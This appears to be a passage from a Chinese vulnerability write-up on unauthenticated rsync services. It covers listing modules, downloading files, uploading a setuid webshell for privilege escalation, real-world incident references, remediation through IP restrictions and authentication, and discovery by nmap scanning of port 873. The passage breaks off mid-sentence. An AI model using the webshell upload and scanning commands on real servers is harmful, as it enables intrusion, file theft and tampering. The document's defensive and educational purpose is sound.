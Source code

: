 ***常用的rsync操作：***

	rsync X.X.X.X:: #列出同步目录
	rsync X.X.X.X::www/ #列出同步目录中的www目录
	rsync -avz X.X.X.X::www/test.php /root #下载文件到本地
	rsync -avz X.X.X.X::www/ /var/tmp #下载目录到本地
	rsync -avz webshell.php X.X.X.X::www/ #上传本地文件到rsync服务器
***利用rsync提权***

rsync进程默认以root权限启动,利用rsync同步文件的同时，可以保持原来文件的权限的特性，可以使用rsync进行提权。

	chmod a+s webshell.php
	rsync -avz webshell.php X.X.X.X::www/
	
**4、实际案例**

---
[WooYun: 我是如何沦陷ChinaZ下载站服务器的，可登录3389、篡改源码等](http://www.wooyun.org/bugs/wooyun-2013-026232)

[WooYun: 新浪漏洞系列第三弹-微博内网遭入侵](http://www.wooyun.org/bugs/wooyun-2013-021589)

[WooYun: Discuz旗下5d6d某服务器Rsync任意文件上传](http://www.wooyun.org/bugs/wooyun-2012-010093)

**5、修复方案**

---
限定访问的IP

IPTables防火墙给rsync的端口添加一个iptables。

只希望能够从内部网络（192.168.101.0/24）访问：

	iptables -A INPUT -i eth0 -p tcp -s 192.168.101.0/24 --dport 873 -m state --state NEW,ESTABLISHED -j ACCEPT
	iptables -A OUTPUT -o eth0 -p tcp --sport 873 -m state --state ESTABLISHED -j ACCEPT
在rsyncd.conf使用hosts allow设置只允许来源ip：

	hosts allow = X.X.X.X #允许访问的IP
添加用户口令

在rsyncd.conf中添加rsync用户权限访问：

	secrets file = /etc/rsyncd.secrets #密码文件位置，认证文件设置，设置用户名和密码
	auth users = rsync #授权帐号,认证的用户名，如果没有这行则表明是匿名，多个用户用,分隔。
	
**6、漏洞扫描与发现**

---
半手动扫描

使用nmap扫描Rsync默认的端口（873）：

	nmap -n --open -p 873 X.X.X.X/24
找到开放873端口的主机后尝试连接：

	rsync X.X.X.X::
自动化扫描

使用Metasploit中的
